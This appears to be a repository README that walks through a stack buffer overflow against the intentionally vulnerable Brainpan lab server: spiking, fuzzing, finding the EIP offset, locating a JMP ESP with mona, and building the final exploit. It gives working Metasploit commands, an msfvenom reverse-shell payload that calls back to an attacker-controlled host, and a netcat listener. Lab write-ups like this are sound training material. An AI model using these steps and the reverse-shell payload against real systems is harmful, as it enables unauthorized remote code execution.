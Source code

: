 <h1>Hacksudo Brainpan BOF server </h1>
visit brainpan 1 box walktrhough 
https://leetvilu.blogspot.com/2021/03/brainpan-1-box-walkktrhough-hacksudocom.html
<h2>Steps</h2></br>
All BOF step are given bellow check clearfully 
<h3>1 spiking</n>
<br>2 fuzzing</n>
<br>3 finding the offset
<br>4 overwriting the EIP
<br>5 finding bad characters
<br>6 finding the right modules
<br>7 Generating Shellcode</h3></br></br></br></br></br>
<h2>1 Spiking </h2>
First make sure Your firewall real protection turn off
Now run brainpan server as admin
use your spiking.spk to find Vulnerability 
script is --> 
<b> s_readline();
"s_string("TRUN ");"
s_string_variable("0");
</b>

Now use generic_send_tcp (target)IP (target)PORT spiking.spk 0 0
(if server crash ? boom you  succeed 

<h2> 2 fuzzing</h2>
Now time to find Number of size buffer which crash server 
(use chmod +x * )
 ./brainpan.py 192.168.43.161 9999 ( here your brainpan server will crash and you will get avarage amount o buffer size
Now create pattern , why ? to find exact number of Buffer size
First create unic pattern using metasploit tool
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1500( here your last (brainpan.py) crash avarage number , which 
must greater.  
 Now use offsetcalc.py to find lenght which you will use later to  find offset which is our exact buffer size in byte :D 
 ./offsetcalc.py IP PORT
get EIP value ? now use it at offset

<h2> 3 finding the offset</h2>
find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 35724134
[*] Exact match at offset 524
 boom ?? we get Exact Number of size which is 524

<h2>4. overwriting the EIP</h2>
Now Verify EIP Overwrite, add B*4 and check debuger print 42424242 at EIP 
./brainpanEIPWt.py IP PORT
 YES --> ok great

<h2>5. finding bad characters</h2>
Now find Bad chars which is use while create shellcode , actualy  we dont need to find  bad chars in this servers, but dont skip this step go head
and just do practice ;) 
 ./brainpanBadChard.py IP PORT
remember how to find Bad chars ? opps no ? dont worry just do hard else catch me on insta i'll explain you 
https://instagram.com/realvilu
:)

<h2>6. finding the right modules</h2>
Downloaded Mona modules ? . no ? download it  --> https://github.com/corelan/mona and add it at exact place
use command 
!mona mudules
!mona find -s "\xff\xe4" -m brainpan.dll
now find base value note it down
and make sure ur JMP ESP Using nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

now do make sure you selected your JMP ESP make sure your base value is right 

fire offsetverify.py
./offsetverify.py IP PORT
make sure its work you controling EIP or not if yes then go head and do shell using shellcode
control EIP done

<h2>7. Generating Shellcode</h2>
now generarte shellcode 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.216 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"(make sure your bad chars)

"A" * 524 + (JMP ESP value) "\xf3\x12\x17\x31"  (reverse way) +  "\x90" * 8 ( this is nops value minimum which make space between shell and JMP ESP+ shell 
make sure your nc is ready
 nc -lvnp 443 
and now fire your final code 
./finalexploit.py IP PORT

boom you will get shell 
if not then sorry please recheck all step clearly 
thanks i hope you love this repo :D 
<h1>love you guys thanks for watching </h1>
<b>
<br>visit our official Website : https://hacksudo.com</br>
<br>hacksudo Linkedin https://www.linkedin.com/in/hack-sudo-230a871b3/</br>
<br> visit linkedin https://www.linkedin.com/in/realvilu </br>
<br><h2>Author Vishal waghmare</h2></br>
<h3>Happy Hacking :)</h3>
